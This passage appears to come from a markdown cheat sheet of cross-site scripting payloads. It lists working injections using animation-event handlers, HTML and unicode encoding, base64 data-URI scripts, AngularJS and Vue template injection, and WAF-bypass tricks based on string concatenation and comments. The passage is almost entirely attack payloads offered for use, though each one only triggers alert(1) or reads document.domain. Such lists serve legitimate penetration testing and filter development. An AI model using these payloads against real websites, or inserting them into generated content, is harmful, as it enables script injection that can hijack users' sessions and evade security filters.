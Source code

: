 ### Animation Events
```html
<style>@keyframes x{}</style>
<xss style="animation-name:x" onanimationstart="alert(1)"></xss>
```

---

## 🔣 Encoding & Obfuscation

### HTML Encoding
```html
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

### JavaScript Encoding
```javascript
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
<script>eval('\x61\x6c\x65\x72\x74\x28\x31\x29')</script>
```

### Base64 Obfuscation
```html
<script src="data:text/javascript;base64,YWxlcnQoMSk="></script>
```

---

## ⚛️ Framework-Specific

### AngularJS Injection
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
```

### Vue.js Injection
```html
<div v-html="''.constructor.constructor('alert(1)')()">a</div>
```

---

## 🛡️ WAF Bypass Techniques

### String Concatenation
```javascript
<script>window['al'+'ert'](document['dom'+'ain'])</script>
```

### Comment Obfuscation
```javascript
<script>window[/*foo*/'alert'/*bar*/](document.domain)</script>
```
